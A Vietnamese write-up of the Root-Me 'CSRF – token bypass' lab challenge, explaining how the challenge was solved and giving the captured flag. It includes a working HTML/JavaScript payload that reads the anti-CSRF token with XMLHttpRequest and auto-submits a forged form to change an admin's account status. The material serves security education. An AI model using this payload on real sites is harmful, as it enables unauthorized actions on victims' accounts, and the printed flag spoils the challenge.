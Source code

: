 # WRITE UP

**Challenge:** [CSRF – token bypass](https://www.root-me.org/en/Challenges/Web-Client/CSRF-token-bypass)

Nhìn qua, ta thấy website này có các chức năng tương tự bài CSRF 0 protection. Tuy vậy, ta có thể phát hiện được ở tab Contact, có một thẻ input bị hidden có name là token:

<img src="./media/image1.png" style="width:6.5in;height:0.76667in" />

Giá trị token này sẽ thay đổi liên tục khi ta thực hiện submit form:

<img src="./media/image2.png" style="width:6.5in;height:0.54722in" />

Điều này sẽ được xác thực bởi server. Từ đó, ta cần trộm token này trước khi submit form như bài CSRF 0 protection. Ta có thể sử dụng Ajax và XMLHttpRequest() để có thể get được value này.

&lt;form id="clickme" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data"&gt;

&lt;input type="text" name="username" value="19522445"&gt;

&lt;input type="checkbox" name="status" checked&gt;

&lt;input id="token" type="hidden" name="token" value=""/&gt;

&lt;button type="submit"&gt;Submit&lt;/button&gt;

&lt;/form&gt;

&lt;script&gt;

var req = new XMLHttpRequest();

req.open("GET", decodeURIComponent("http://challenge01.root-me.org/web-client/ch23/?action=profile"), false);

req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");

req.send();

var token = req.responseText.match(/\[abcdef0123456789\]{32}/);

document.getElementById("token").value = token;

document.getElementById("clickme").submit();

&lt;/script&gt;

<img src="./media/image3.png" style="width:6.5in;height:2.19444in" alt="Graphical user interface, text, application Description automatically generated" />

Submit để gửi contact đến admin và qua tab Private để kiểm tra kết quả. Sau hơn 1 phút, ta nhận được flag:

<img src="./media/image4.png" style="width:5.968in;height:2.21847in" alt="Graphical user interface, text, application, chat or text message Description automatically generated" />

**Flag:** Byp4ss\_CSRF\_T0k3n-w1th-XSS
